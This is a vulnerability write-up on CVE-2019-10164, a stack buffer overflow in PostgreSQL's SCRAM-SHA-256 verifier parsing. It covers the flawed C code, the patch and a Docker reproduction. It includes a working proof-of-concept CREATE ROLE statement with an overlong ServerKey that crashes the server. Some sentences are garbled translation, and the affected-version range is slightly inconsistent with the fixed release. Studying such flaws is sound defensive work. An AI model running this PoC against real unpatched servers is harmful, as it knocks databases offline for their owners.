



# CVE-2019-10164 CWE-787&121 PostgreSQL DoS

## Vulnerability Background
- **PostgreSQL**:P ostgreSQL is an open-source, powerful object-relational database management system widely used in web development, data analysis, and enterprise-level applications. It supports ACID transactions, complex queries, full-text searches, and Multi-Version Concurrency Control (MVCC), ensuring high concurrency and data consistency. PostgreSQL offers extensibility, allowing users to customize data types, functions, and indexes, and also supports JSON and geospatial data.
- **verifier string:** In the SCRAM-SHA-256 authentication mechanism introduced in PostgreSQL 10, the database does not directly store the user's plaintext password but instead stores a verifier string in the format: `SCRAM-SHA-256$<iterations>:<salt>$<StoredKey>:<ServerKey>`. When the client authenticates, the server must reproduce the password derivation logic based on the saved verifier and check the proof provided by the client.
- **CWE-787 Out-of-bounds Write:** When writing data to memory, the write location extends beyond the target buffer or object boundary. This can damage adjacent memory data or control structures, causing program crashes, logical anomalies, and even attackers exploiting override functions to return addresses, function pointers, and other critical areas to execute arbitrary code. Common causes include missing boundary checks, array index errors, and length calculation errors.
- **CWE-121 Stack-based Buffer Overflow:** A special out-of-bounds write vulnerability that occurs in buffers allocated on the stack (such as local arrays). When a program writes excessively long data to this buffer, it overwrites adjacent variables, return addresses, or stack frame information on the stack. Attackers can use this to modify control flows, execute code, or escalate privileges.

## Vulnerability Mechanism
When parsing SCRAM-SHA-256 verification strings, PostgreSQL writes the Base64 decoding result directly into a fixed-size stack buffer (32 bytes), and even performs an incorrect length-to-length check before actually obtaining the decoding length (even estimating the boolean value as a growth scale). If an attacker constructs an extremely long StoredKey or ServerKey Base64 string, `pg_b64_decode()` will write out of bounds to stack memory during writing, destroying adjacent data structures. Even if subsequent checks find the length is incorrect and an error is reported, memory corruption has already occurred, causing database processes to crash or even be exploited to execute arbitrary code.

## Vulnerability Location
Analysis of PostgreSQL 10.0 source code:

In the src/backend/libpq/auth-scram.c file, line 478 of the parse_scram_verifier function is used to parse and verify the SCRAM-SHA-256 password check string on the server side.

And in line 530, the Boolean value of `strlen(storedkey_str) != SCRAM_KEY_LEN` (0/1) is treated as input for `pg_b64_dec_len()`, equivalent to `pg_b64_dec_len(0)` or `pg_b64_dec_len(1)`, which is unrelated to the true `strlen()`, so in essence, **no effective length estimate** is made. If an attacker makes the Base64 string long enough, `pg_b64_decode()` will **overwrite the stack out of bounds** during writing, even if the code checks `decoded_len != SCRAM_KEY_LEN` and reports an error, the destruction has already occurred.

Line 537 deals with the same issue when dealing with `serverkey_str`.

```c
// auth-scram.c 478 lines
static bool parse_scram_verifier(const char *verifier, int *iterations, char **salt,
					 uint8 *stored_key, uint8 *server_key)
{
	// ...

	// 530 lines ********** Directly write to fixed-length buffer ********* Vulnerability ************
	if (pg_b64_dec_len(strlen(storedkey_str) != SCRAM_KEY_LEN))
		goto invalid_verifier;
    // Only after the matter was the chief judged
	decoded_len = pg_b64_decode(storedkey_str, strlen(storedkey_str),
								(char *) stored_key);
	if (decoded_len != SCRAM_KEY_LEN)
		goto invalid_verifier;

    // 537 lines ********** Directly write to fixed-length buffer ********* Vulnerability ************
	if (pg_b64_dec_len(strlen(serverkey_str) != SCRAM_KEY_LEN))
		goto invalid_verifier;
	decoded_len = pg_b64_decode(serverkey_str, strlen(serverkey_str),
								(char *) server_key);
	if (decoded_len != SCRAM_KEY_LEN)
		goto invalid_verifier;

	return true;

invalid_verifier:
	pfree(v);
	*salt = NULL;
	return false;
}
```

## Remediation

Upgrade to PostgreSQL 11.4, 10.9, or a later release on the corresponding branch.
First, use `pg_b64_dec_len(strlen(...))` **allocate temporary buffers as needed**, then call `pg_b64_decode()` to get **actual decoding length**; Only when `decoded_len == SCRAM_KEY_LEN` `memcpy()` **copy to the fixed-length buffer** provided by the caller, thereby avoiding **stack-based buffer overflow**.

```c
// ...
decoded_stored_buf = palloc(pg_b64_dec_len(strlen(storedkey_str)));

decoded_len = pg_b64_decode(storedkey_str, strlen(storedkey_str),
                            decoded_stored_buf);
if (decoded_len != SCRAM_KEY_LEN)
    goto invalid_verifier;
memcpy(stored_key, decoded_stored_buf, SCRAM_KEY_LEN);

decoded_server_buf = palloc(pg_b64_dec_len(strlen(serverkey_str)));

decoded_len = pg_b64_decode(serverkey_str, strlen(serverkey_str),
                            decoded_server_buf);
if (decoded_len != SCRAM_KEY_LEN)
    goto invalid_verifier;
memcpy(server_key, decoded_server_buf, SCRAM_KEY_LEN);
// ...
```

## Affected Versions
**Affected version:** PostgreSQL:

-  10.0 to 10.9
-  11.0 to 11.4

## Environment Setup
Start the Docker environment, PostgreSQL version 10.0, administrator postgres, password postgres, database test already exists.

```txt
NIST:NVD     Base Score:8.8 HIGH    Vector: CVSS:3.0/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:H
CNA:Red Hat,Inc.    Base Score:7.5 HIGH    Vector:CVSS:3.0/AV:N/AC:H/PR:L/UI:N/S:U/C:L/I:N/A:N
```

```txt
cpe:2.3:a:postgresql:postgresql:10.0:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Use Postgres user identity to connect to the PostgreSQL database test in the container and run the PoC file. After execution, you will see the connection closes and automatically exits.

   ```bash
   docker exec -it postgres-10.0 psql -U postgres -d test -f CVE-2019-10164-PoC.sql
   ```

   

2. Looking at the container logs, you can see that PostgreSQL encountered a segment error (signal 11), causing the crash.

   ```bash
   docker logs postgres-10.0
   ```

   

## PoC Analysis

```sql
CREATE ROLE regress_passwd_sha_len2 PASSWORD
'SCRAM-SHA-256$4096:A6xHKoH/494E941doaPOYg==$Ky+A30sewHIH3VHQLRN9vYsuzlgNyGNKCh37dy96Rqw=:COPdlNiIkrsacU5QoxydEuOH6e/KfiipeETb/bPw8ZIAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA=';
```

The PoC code creates a role and directly sets the PASSWORD field as a complete SCRAM verifier string. If you maliciously stretch the `ServerKey` Base64 string, the decoded length is > 32, and writing will overwrite adjacent memory on the stack. causing the process to crash.

## References
[NVD - CVE-2019-10164](https://nvd.nist.gov/vuln/detail/CVE-2019-10164#range-14815290)

[Fix buffer overflow when parsing SCRAM verifiers in backend · postgres/postgres@09ec55b](https://github.com/postgres/postgres/commit/09ec55b933091cb5b0af99978718cb3d289c71b6#diff-999cd3e9853776a9ce8c01610796bb1325360f1bee7e6c76fb73be8f240ff7bc)
